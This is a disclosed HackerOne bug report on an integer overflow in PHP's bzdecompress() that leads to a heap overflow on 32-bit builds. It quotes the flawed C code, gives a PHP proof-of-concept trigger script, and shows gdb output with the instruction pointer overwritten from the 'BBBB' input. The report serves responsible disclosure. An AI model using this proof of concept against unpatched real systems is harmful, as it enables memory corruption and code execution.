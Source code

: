 # Heap overflow due to integer overflow in bzdecompress() function

## Report Details
- **Report ID**: 180563
- **URL**: https://hackerone.com/reports/180563
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-11-07T02:05:13.928Z
- **Disclosed**: 2019-11-12T09:21:52.975Z

## Reporter
- **Username**: fosec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
The fix for this bug has been committed: https://bugs.php.net/bug.php?id=73386
Description:
------------
I have found some vulnerable code at ```bzdecompress()``` function in module Bzip2. ```bzdecompress() function``` creates a new zend_string object to store decompressed data. The size of destination string depends on the size of source string. ( refer at ```ext/bz2/bz2.c:589``` )

``` c
static PHP_FUNCTION(bzdecompress)
{
....
	bzs.avail_in = source_len;
	/* in most cases bz2 offers at least 2:1 compression, so we use that as our base */
	bzs.avail_out = source_len * 2;
	dest = zend_string_alloc(bzs.avail_out + 1, 0);
....
}
```

If compressed string is too long, ```bzs.avail_out``` will be an unexpected value and ```zend_string_alloc()``` function will allocate a small memory range. Due to missing check of size before calling
```zend_string_alloc()```, this new memory range can not use to store large decompressed data and lead to heap overflow. The overflow results as arbitrary code execution, I can control eip register to the arbitrary value. This bug is only triggered in 32bit machine.

Test script:
---------------
``` php
<?php
ini_set('memory_limit', -1);
$s = str_repeat('A', 0xE3AC)."BBBB".str_repeat('C', 0x1C50);
$a = bzcompress($s);
$a = $a.str_repeat('A', 4634 - strlen($a));
$a = str_repeat($a, 0x7ffffffe / strlen($a)); // try to create a compressed data with large size
bzdecompress($a); // trigger this vulnerability
?>
```
Actual result:
--------------
```
[root@local PHP-7.1]# gdb --args sapi/cli/php -f ../crash/bz_poc.php

[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x1
ECX: 0xffffff60
EDX: 0x7fff
ESI: 0xb7813020 --> 0xb78743f0 ('A' <repeats 28 times>, "BBBB", 'C' <repeats 168 times>...)
EDI: 0xb787440c ("BBBB", 'C' <repeats 196 times>...)
EBP: 0xbfffc094 --> 0x0
ESP: 0xbfffbffc --> 0x835fd02 (<execute_ex+34>: test   edi,edi)
EIP: 0x42424242 --> 0x2478184
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
=> 0x42424242:  test   BYTE PTR [ecx+0x60380247],al
   0x42424248:  inc    ecx
   0x42424249:  inc    ecx
   0x4242424a:  inc    ecx
[------------------------------------stack-------------------------------------]
0000| 0xbfffbffc --> 0x835fd02 (<execute_ex+34>:        test   edi,edi)
0004| 0xbfffc000 --> 0xbfffc094 --> 0x0
0008| 0xbfffc004 --> 0xb7864180 --> 0x2
0012| 0xbfffc008 --> 0x0
0016| 0xbfffc00c --> 0x83aed9b (<zend_execute+315>:     mov    edx,DWORD PTR [esp+0x18])
0020| 0xbfffc010 --> 0xb7813020 --> 0xb78743f0 ('A' <repeats 28 times>, "BBBB", 'C' <repeats 168 times>...)
0024| 0xbfffc014 --> 0x0
0028| 0xbfffc018 --> 0x1c
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ i r eip
eip            0x42424242       0x42424242
gdb-peda$
```
EIP is controlled as **0x42424242**, from the input **"BBBB"**.

## Attachments
No attachments
